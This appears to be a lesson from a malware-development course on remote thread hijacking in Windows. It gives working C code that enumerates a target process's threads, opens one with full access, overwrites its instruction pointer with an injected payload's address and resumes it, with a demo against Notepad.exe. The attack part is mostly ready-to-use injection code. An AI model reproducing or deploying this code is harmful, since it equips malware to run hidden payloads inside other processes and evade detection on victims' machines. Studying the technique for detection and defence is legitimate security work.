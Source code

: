 # 4.6 Thread Hijacking - Remote Thread Enumeration

### Introduction

This module covers the usage of `CreateToolhelp32Snapshot` to enumerate threads of a remote process. Minor changes are made to the `GetLocalThreadHandle` function, shown in the previous module, to make it work against remote threads.

The logic remains the same where `CreateToolhelp32Snapshot`, `Thread32First` and `Thread32Next` are used to enumerate the target process's threads. The difference when targeting remote processes is that the main thread is a valid target for hijacking.

### Remote Thread Enumeration Function

`GetRemoteThreadhandle` will enumerate threads of a remote process. It takes 3 arguments:

- `dwProcessId` - This is the PID of the target process.
    
- `dwThreadId` - A pointer to a DWORD that will receive the target process's thread ID.
    
- `hThread` - A pointer to a HANDLE that will receive the handle to the remote thread.
    

One additional difference in the implementation of the `GetRemoteThreadhandle` function is that the target PID needs to be supplied. When targeting the local process that was not necessary because the `GetCurrentProcessId` WinAPI retrieved the local process's PID.

```c
BOOL GetRemoteThreadhandle(IN DWORD dwProcessId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
	
	HANDLE         hSnapShot  = NULL;
	THREADENTRY32  Thr        = {
		.dwSize = sizeof(THREADENTRY32)
	};

	// Takes a snapshot of the currently running processes's threads 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first thread encountered in the snapshot.
	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		// If the thread's PID is equal to the PID of the target process then
		// this thread is running under the target process
		if (Thr.th32OwnerProcessID == dwProcessId){
			
			*dwThreadId  = Thr.th32ThreadID;
			*hThread     = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
			
			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	// While there are threads remaining in the snapshot
	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}
```

### Remote Thread Hijacking Function

This part is similar to the hijack function seen in previous modules. Retrieve the remote process handle, inject the payload to the remote process and finally hijack the thread.

```c
BOOL HijackThread(IN HANDLE hThread, IN PVOID pAddress) {

	CONTEXT ThreadCtx = {
		.ContextFlags = CONTEXT_ALL
	};
	
	// Suspend the thread
	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}

```

### Demo

Getting the target process's PID. In this case, the target process is `Notepad.exe`.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/renum-109196659-5f5a1b94-3074-4774-8271-03a07b5f2c04.png)

  

Inject the payload and hijack thread ID `7136`. The thread stack shows that the address of the payload is the next job to be executed.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/renum-209196664-c43d380c-79ab-48c1-97c9-396c3c2b7c4d.png)

  

Finally, the payload is executed.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/renum-309196669-ebbdc23d-e0c2-436c-ac73-70f18c971c3b.png)